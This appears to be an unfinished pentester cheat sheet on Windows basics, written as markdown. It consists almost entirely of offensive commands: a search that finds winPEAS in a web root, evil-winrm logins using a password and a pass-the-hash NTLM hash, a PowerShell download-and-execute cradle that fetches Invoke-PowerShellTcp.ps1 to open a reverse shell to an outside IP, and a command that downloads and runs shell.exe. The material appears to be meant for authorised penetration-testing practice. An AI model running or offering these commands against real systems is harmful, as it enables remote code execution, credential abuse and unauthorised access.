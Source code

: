```yaml
---
title: Windows basic
description: Windows basic guide for pentester.
---
```


This article is currently being written.

# Windows basic

Windows server : https://www.microsoft.com/en-us/windows-server
Windows 10, pro vs home : https://www.microsoft.com/en-us/windows/compare-windows-10-home-vs-pro

## Search for files

```powershell
c:\>dir winPEASx64.exe /s
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv

12/05/2021  03:55 AM         1,926,656 winPEASx64.exe
               1 File(s)      1,926,656 bytes

     Total Files Listed:
               1 File(s)      1,926,656 bytes
               0 Dir(s)  21,130,096,640 bytes free
```

```powershell
# Using password
$ evil-winrm -i 10.10.163.154 -u 'admin' -p 'password123'
# Using LM hash (from SAM)
$ evil-winrm -i 10.10.163.154 -u 'admin' -H 'a9fdfa038c4b75ebc76dc855dd74f0da'
```

```powershell
c:\> powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8080/Invoke-PowerShellTcp.ps1')

c:\> Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 8080
```

```powershell
c:\> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.52.138:8000/shell.exe','shell.exe')"
c:\> Start-Process "shell.exe"
```

## Download HTTP files
